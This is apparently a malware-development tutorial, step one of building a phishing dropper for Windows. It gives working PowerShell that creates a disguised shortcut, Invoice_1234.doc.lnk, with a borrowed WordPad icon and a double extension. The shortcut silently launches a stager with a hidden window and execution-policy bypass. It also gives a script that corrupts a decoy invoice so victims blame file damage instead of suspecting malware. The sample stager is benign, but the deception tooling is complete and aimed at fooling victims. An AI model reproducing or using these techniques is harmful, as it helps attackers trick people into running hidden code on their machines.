


Step 1: Stager and LNK
Preparing our Environment
In a Windows VM, create a new directory called PoC Dropper. Inside, create a subdirectory called iso, containing another subdirectory called stager. At the end of this section, once we've built the stager and LNK file, the directory tree will look like this:
PoC Dropper/
├── iso/
│ ├── Invoice_1234.doc.lnk
│ └── stager/
│ └── stager.ps1
└── make_lnk.ps1
The iso folder will be used for construction of the ISO file in Step 2.
A Basic Stager
We're designing a dropper to launch a stager. Thus, we'll need to build a stager before the dropper can be tested. There's no need to build a fully-functional stager though; a simple PoC will suffice. Since we're targeting Windows, we'll write our PoC stager in PowerShell:
"Infected!" | Out-File -FilePath $HOME\Desktop\INFECTED.TXT
When run, the script will write Infected! to a file called INFECTED.TXT on the victim's desktop. The TXT file proves the dropper's success. Save the script in the stager directory as stager.ps1.
With that out of the way, let's build a dropper.
LNK Construction
To entice victims, our dropper will be disguised as an invoice (per the "fraudulent charge" phishing scheme). To achieve this disguise, the LNK file will use the WordPad icon, so that it looks like a text document. In addition, it will use the .doc.lnk double-extension. By default, Windows hides the extensions of known filetypes; with the double-extension trick, coupled with the WordPad icon, it will appear as if the LNK is actually a Microsoft Word document.
You may be wondering: "If we're disguising the dropper as a Microsoft Word document, why are we usig an icon from WordPad?" LNK files do not include built-in icons; instead, they "borrow" icons from other files on the system. If we use the MS Word icon, but the victim doesn't have MS Word installed, the LNK file icon will be broken, and the deception will be incomplete. This problem is averted with WordPad, which has been bundled with every Windows release since Windows 95.
Our dropper doesn't have to be perfect. It just has to be good enough to fool one or two people.
To construct the LNK file, we'll once again be using PowerShell. In the PoC Dropper directory, create a script called make_lnk.ps1, with the following contents:
# Configure the launcher.
$exe = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe";
$args = "-NonInteractive -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File .\stager\stager.ps1";
$icon = "C:\Program Files\Windows NT\Accessories\wordpad.exe";
# Create the malicious LNK file.
$wss = New-Object -ComObject WScript.Shell;
$lnk = $wss.CreateShortcut(".\iso\Invoice_1234.doc.lnk");
$lnk.WindowStyle = "7"; # 1 = Default; 3 = Maximized; 7 = Minimized
$lnk.TargetPath = $exe;
$lnk.Arguments = $args;
$lnk.IconLocation = "$icon,0"; # Use the first icon from the target binary.
$lnk.save();
Here's what the script does:
- Create a new
WScript.Shellobject. - Use the resulting object to create a new LNK file at
.\iso\Invoice_1234.doc.lnk. - Set the
WindowStyleattribute to7.- The available options are
1,3, and7. - Style
7tells Windows to launch the shortcut in a minimized window.
- The available options are
- Set the
TargetPathandArgumentsattributes to launch our stager.- Fun fact: These arguments can be abbreviated, and capitalization doesn't matter.
- E.g. this also works:
-non -nop -ex byp -w hid -fi .\stager\stager.ps1
- Set the
IconLocationto the first icon fromwordpad.exe.- Some apps ship with multiple icons.
- Save the
.lnkfile to the previously-specified location.
Once the script is saved, run it with PowerShell:
C:\Users\MalDev\Desktop\PoC Dropper>powershell.exe -file .\make_lnk.ps1
When it's complete, you should see the following items in the iso directory:

The stager directory contains the PoC PowerShell stager. The Invoice_1234.doc.lnk file uses the WordPad icon. Coupled with the double-extension trick, this completes the illusion.
Testing the Dropper
Since our PoC stager is benign, we can safely test the LNK file. When executed, a new item appears on the task bar for a split second before vanishing:

If the dropper and stager worked properly, you will find a file called INFECTED.TXT on the desktop.
Improving the Design
Thanks to the dropper's disguise, when a vitcim opens the file, they expect Microsoft Word (or another text editor) to appear. Yet, aside from the brief blip on the task bar, nothing happens! This may arouse suspicion. To account for this, we can create a real Microsoft Word document called Invoice_1234.doc, store it in the stager directory, and launch it along with the stager. Thus, while the victim examines an official-looking statement, our stager will run in the background.
This, of course, requires us to design an official-looking statement. Producing an authentic-looking design can take significant time and effort; any inconsistency or flaw could break the deception. Therefore, we must spend painstaking hours ensuring that our fake invoice is absolutely perfect.
Or, if you're like me, you could just say "sod it" and create a corrupted document. Here's how:
- Create a fake invoice file.
- Don't worry about formatting.
- Slap an official-looking logo at the top of the page.
- List some expensive charges (such as a laptop and accessories).
- Maybe add an incomplete bit about how to appeal charges. Cut it off mid-sentence.
- Save the file as
Invoice_1234.doc, in thestagerdirectory. - Chop the file in half, resulting in a corrupted and incomplete document.
Here's some PowerShell code to chop your DOC in half:
$relativepath = "stager\Invoice_1234.doc";
$fullpath = ($relativepath | Resolve-Path);
$size = ((Get-Item $fullpath).length);
$newsize = ($size - ($size % 2)) / 2; # Half size, in full bytes.
$infile = [io.file]::OpenRead($fullpath);
$buffer = New-Object byte[] $newsize;
$infile.Read($buffer, 0, $newsize);
$infile.close();
Remove-Item -path $fullpath;
$outfile = [io.file]::OpenWrite($fullpath);
$outfile.Write($buffer, 0, $newsize);
$outfile.close();
This opens the document, saves half of the file into a buffer, then deletes and re-creates the file with only half of its data. The result, when opened in Microsoft Word, will generate an error stating that the file could not be read. Faced with this error, victims may believe that the attachment got corrupted somehow, rather than suspecting malware. If they attempt file recovery, they'll see a bit of text, possibly even the embedded logo, as they would expect from a corrupted file.
Launching the document as part of the LNK dropper is fairly straightforward; I'll leave this as an exercise for the reader. (For a hint, revisit the LNK section of the Dropper Basics page.)